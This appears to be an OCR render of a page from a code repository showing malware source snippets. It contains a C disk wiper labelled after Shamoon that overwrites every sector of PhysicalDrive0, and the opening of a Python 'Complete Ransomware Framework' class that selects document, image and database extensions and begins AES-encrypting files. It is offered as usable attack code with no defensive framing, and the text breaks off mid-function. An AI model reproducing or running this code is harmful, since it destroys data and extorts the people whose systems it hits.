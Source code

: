 ```python
        
        # Encrypt AES key with RSA
        encrypted_key = key.publickey().encrypt(aes_key, 32)
        save_encrypted_key(encrypted_key)
```

### Shamoon Disk Wiper
```c
// Shamoon disk wiping
HANDLE hDevice = CreateFile("\\\\.\\PhysicalDrive0",
                           GENERIC_WRITE,
                           FILE_SHARE_READ | FILE_SHARE_WRITE,
                           NULL, OPEN_EXISTING, 0, NULL);

BYTE wipeData[512];
memset(wipeData, 0, sizeof(wipeData));

DWORD bytesWritten;
for(DWORD sector = 0; sector < total_sectors; sector++) {
    WriteFile(hDevice, wipeData, sizeof(wipeData), &bytesWritten, NULL);
}

CloseHandle(hDevice);
```

---

## Ransomware Implementation

### Complete Ransomware Framework
```python
import os
import socket
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import rsa, padding
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend

class Ransomware:
    def __init__(self):
        self.rsa_key = rsa.generate_private_key(
            public_exponent=65537,
            key_size=2048,
            backend=default_backend()
        )
        self.public_key = self.rsa_key.public_key()
        
        self.extensions = [
            '.doc', '.docx', '.xls', '.xlsx', '.ppt', '.pptx',
            '.pdf', '.txt', '.jpg', '.png', '.zip', '.sql', '.db'
        ]
    
    def encrypt_file(self, file_path):
        """Encrypt single file"""
        try:
            # Generate random AES key
            aes_key = os.urandom(32)
            iv = os.urandom(16)
            
            # Read file
            with open(file_path, 'rb') as f:
                plaintext = f.read()
            
```